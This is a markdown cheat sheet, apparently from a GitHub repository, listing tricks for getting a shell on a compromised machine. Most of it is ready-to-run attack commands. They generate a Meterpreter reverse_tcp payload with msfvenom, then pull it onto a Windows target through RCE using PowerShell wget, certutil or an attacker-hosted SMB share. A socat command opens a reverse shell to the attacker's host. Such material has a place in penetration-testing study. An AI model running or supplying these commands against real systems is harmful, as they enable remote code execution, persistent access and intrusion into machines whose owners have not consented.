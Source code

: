 ## Some useful tricks that could be useful to get a shell

#### 1. I have a RCE on windows box and I need to get a shell... Wget with Powershell!

* Obtain your payload with msfvenom or similar:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```

* Execute through your RCE on windows box:

```
command = "PowerShell -Command \"wget 'http://your_controlled_server/payload.exe' -OutFile reverse.exe\"" # command to run with RCE
```

Execute your payload (now called "reverse.exe") using RCE and setup a listening with msf multi-handler.

*Obs: Obviously, this method may not work well due to permission conditions and so on. This is out-of-scope... it's just a trick! :-)*

#### 2. Use certutil.exe to download files inside a Windows machine

```
certutil -urlcache -split -f http://<attacker_IP>:8080/msfpayload64.exe C:\\inetpub\\wwwroot\\msfpayload64.exe
```

#### 3. Use impacket-smbserver to run payloads in a Windows target

On your attacker machine, create a SMB server hosting a MSF payload (for example)

```
root@kali:/tmp# impacket-smbserver share /tmp
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Using your RCE in the Windows box (target), execute the payload:

```
C:/>\\<attacker_IP>\msfpayload.exe 
```

On this way... the "msfpayload.exe" will never touch the disk.

#### 4. I need to transfer files (like my payloads) between VMs/hosts

* You can setup a simple web server using Python or PHP.
	+ Python:

	```python
	python -m SimpleHTTPServer 8080
	```
	
	And a simple HTTP server will be listening on your 8080 TCP port.
	
	+ PHP:

	```php
	php -S 127.0.0.1:8080
	```
	And a simple HTTP server will be listening on 127.0.0.1:8080.
	
#### 5. Upgrading simple shells to TTYs (or something close to it)

* Python with "pty":

```python
python -c "import pty;pty.spawn('/bin/bash');"
```
* Socat

On your localhost (attacker):

```
socat file:`tty`,raw,echo=0 tcp-listen:443
```

On your victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LHOST_IP>:443
```

## Interesting links to read!

I *REALLY* recommend this link: https://bitvijays.github.io/LFC-VulnerableMachines.html  
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ (A lot of techniques to transfer files from attacker machine to a windows box)  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ (Upgrading simple shells techniques)
